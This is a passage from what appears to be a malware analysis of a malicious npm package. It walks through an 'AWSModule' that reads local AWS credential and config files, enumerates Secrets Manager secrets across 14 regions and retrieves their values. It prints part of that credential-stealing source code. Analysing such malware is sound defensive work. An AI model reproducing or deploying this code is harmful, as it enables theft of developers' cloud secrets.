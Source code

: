 ```
                    error: `Failed to spawn process: ${error}`,
                    executionTime: Date.now() - startTime
                });
            }
        });
    }
}
```

##### AWSModule

The AWSModule contains an interesting variable that defines a specific set of AWS regions to be used during its execution:
<img src="/static/NPM/image-17.png" alt="drawing" width="1000"/>

The principal functions called from its main() method are isValid() and getAllSecretValues().

<img src="/static/NPM/image-18.png" alt="drawing" width="1000"/>

The initialize() and parseAwsProfiles() functions begin the enumeration and access process. They locate the .aws/credentials and .aws/config files and proceed to extract the profiles configured within them.

<img src="/static/NPM/image-19.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-16.png" alt="drawing" width="1000"/>

The getAllSecretValues() function starts by enumerating secrets. It creates a Secrets Manager client for each predefined region using the getSecretsClient() helper function and lists all available secrets using the ListSecretsCommand.

<img src="/static/NPM/image-20.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-21.png" alt="drawing" width="1000"/>

Then proceeds to retrieve the value of each secret using the GetSecretValueCommand.

<img src="/static/NPM/image-22.png" alt="drawing" width="1000"/>

Full code:
```
class AWSModule {
  constructor() {
    this.stsClient = null;
    this.secretsClients = new Map();
    this.callerIdentity = null;
    this.profile = null;
    this.REGIONS = [
      "us-east-1", "us-east-2", "us-west-1", "us-west-2",
      "eu-west-1", "eu-west-2", "eu-west-3", "eu-central-1", "eu-north-1",
      "ap-southeast-1", "ap-southeast-2", "ap-northeast-1", "ap-northeast-2", "ap-south-1"
    ];
  }

  parseAwsProfiles() {
    const profiles = [];
    const configPaths = [
      join(homedir(), ".aws", "credentials"),
      join(homedir(), ".aws", "config")
    ];

    for (const configPath of configPaths) {
      if (existsSync(configPath)) {
        try {
```